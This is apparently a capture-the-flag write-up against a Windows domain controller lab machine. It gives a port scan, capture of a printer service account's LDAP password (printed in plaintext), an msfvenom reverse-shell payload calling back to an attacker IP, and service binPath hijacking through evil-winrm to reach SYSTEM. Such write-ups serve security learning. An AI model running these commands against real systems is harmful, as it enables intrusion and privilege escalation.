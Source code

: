 # Return

- port 53/tcp DNS Simple DNS Plus
- port 80/tcp HTTP Microsoft IIS httpd 10.0
- port 88/tcp kerberos-sec Microsoft Windows Kerberos
- port 135/tcp msrpc Microsoft Windows RPC
- port 139/tcp netbios-ssn Microsoft Windows netbios-ssn
- port 389/tcp ldap Microsoft Windows Active Directory LDAP
- port 445/tcp microsoft-ds
- port 464/tcp passwd5? 
- port 593/tcp ncacn_http Microsoft Windows RPC over HTTP 1.0
- port 636/tcp tcpwrapped
- port 3268/tcp ldap Microsoft Windows Active Directory LDAP
- port 3269/tcp tcpwrapped
- port 5985/tcp WinRM http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 9389/tcp mc-nmf .NET Message Framing
- port 47001/tcp http WinRM Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

### Exploitation

Web server on port 80 hosts printer config, allowing credential recovery for svc-printer account through 
settings tab by listeneing on port 389 and updating the Server address to our IP

svc-printer:1edFg43012!!

`net user svc-printer`

The svc-printer user is a member of [Server Operators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#server-operators) a default Group that can start and stop services

Create a meterpreter reverse shell with msfvenom

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o shell.exe`

Using the evil-winrm shell we can upload the meterpreter shell and set it as a binary to a stopped service 
like vss, Volume Shadow Copy. Then we start msfconsole and run multi/handler with the correct payload, LHOST, 
and LPORT variables set. Finally stop and start the service to gain a remote shell as SYSTEM

```
*Evil-WinRM* PS C:> upload shell.exe
*Evil-WinRM* PS C:> sc.exe config vss binPath=C:\Users\svc-printer\Documents\shell.exe
*Evil-WinRM* PS C:> sc.exe stop vss
*Evil-WinRM* PS C:> sc.exe start vss
```

We can migrate to a more stable shell by running `ps` and then `migrate <PID>` to any service running as 
SYSTEM, drop into a shell and grab root.txt
